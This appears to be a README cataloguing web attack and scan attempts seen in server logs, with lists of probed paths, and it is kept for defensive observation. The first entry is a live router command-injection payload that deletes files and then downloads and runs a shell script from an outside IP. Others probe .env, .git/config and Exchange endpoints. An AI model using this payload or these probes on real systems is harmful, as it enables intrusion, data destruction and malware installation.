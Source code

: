 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- Use the ```is-file-on-server.html``` to determine if you have these files on your server ( Must add paths on your own ).
## ATTEMPTS & FILE SCANS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)

2. ../autodiscover/autodiscover.json?@zdi/Powershell

3. ../owa/auth/x.js

4. ../backup/.git/config

5. ../log/.git/config

6. ../doc/.git/config

7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com

8. ../Telerik.Web.UI.WebResource.axd?type=rau

9. ../WebInterface/

10. ../sugar_version.json

11. ../icons/sphere1.png

12. ../static/historypage.js

13. ../cgi-bin/authLogin.cgi

14. ../remote/login

15. ../sitecore/shell/sitecore.version.xml

16. ../js/NewWindow_2_all.js

17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js     ( CKEditor Web Text Editor )

18. ../showLogin.cc

19. ../webfig/

20. ../cgi-bin/config.exp

21. ../solr/    ( Solr is an open-source enterprise-search platform, written in Java. )

22. ../api/session/properties

23. ../.env

24. ../owa/auth/logon.aspx

25. ../Temporary_Listen_Addresses

26. ../ews/exchanges/

27. ../ews/exchange%20/

28. ../ews/autodiscovers/

29. ../autodiscover/autodiscover%20/

30. ../ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application ( Microsoft Exchange Server designed for eDiscovery ( electronic discovery ) purposes )

31. ../actuator/health

32. ../+CSCOE+/logon.html

33. ../dana-na/auth/url_default/welcome.cgi

34. ../global-protect/login.esp

35. ../axis2-admin

36. ../axis2

```
## Shadow Server Scans ( Unknown Reason ) ( shadowserver.org )
```
1. ../vpn/index.html

2. ../geoserver/web/

3. ../.git/config

4. ../favicon.ico
```
## Linkedin Scans ( Not Hacks )
```
1. ../wp-content/plugins/chp-ads-block-detector/assets/img/icon.png

2. ../robots.txt
```

## Google Scans ( Not Hacks )
```
1. ../xmlrpc.php?rsd

2. ../wlwmanifest.xml  ( Microsoft Live Writer )
```
